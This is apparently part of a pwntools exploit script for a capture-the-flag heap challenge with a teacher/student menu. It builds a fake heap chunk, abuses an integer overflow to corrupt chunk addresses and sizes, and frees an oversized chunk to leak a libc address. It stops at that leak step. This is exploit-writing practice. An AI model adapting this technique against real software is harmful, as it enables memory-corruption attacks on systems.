 ```python
def pray():
	assert(current_role == 1)
	io.sendlineafter(b'choice>> ', b'3')

def change_sid(sid):
	global current_sid
	assert(current_role == 1 and students[sid] != 0)
	io.sendlineafter(b'choice>> ', b'6')
	io.sendlineafter(b'input your id: ', str(sid).encode())
	current_sid = sid

def print_status():
	print('students: ', end='')
	print(students)
	print('reviews: ', end='')
	print(reviews)
	print('chunk_addr: ', end='')
	print(chunk_addr)
	print('scores: ', end='')
	print(scores)
	print('current_role: ' + str(current_role))

io.sendlineafter(b'role: <0.teacher/1.student>: ', b'0')
for i in range(7):
	add_student(1)

change_role(0)
write_review(5, 0xF0, 'deadbeef')
write_review(6, 1024-16, 'deadbeef')

### Step 1: construct a fake chunk to bypass the check for free() of student 6
write_review(4, 0x200, b'a' * 0xF0 + p64(0x500) + p64(0x21) + p64(0) * 3 + p64(0x21), True)

### Step 2: give student 4 reward to change the chunk address of student 5 to that of student 6
change_role(1)
change_sid(4)
pray()

change_role(0)
give_score()	# int overflow

change_role(1)
change_sid(4)
check_review(0x39 + 0x50)
chunk_addr[4] += 0x200

### Step 3: give student 6 reward to change the chunk size of student 6 to 0x100 more
change_role(1)
change_sid(6)
pray()

change_role(0)
give_score()	# int overflow

change_role(1)
change_sid(6)
check_review(0x48 + 0x100 + 1)

### Step 4: delete student 6 to free the chunk with fake size: 0x500
change_role(0)
call_parent(6)

### Step 5: read the comment of student 5 to get and calculate the libc address
```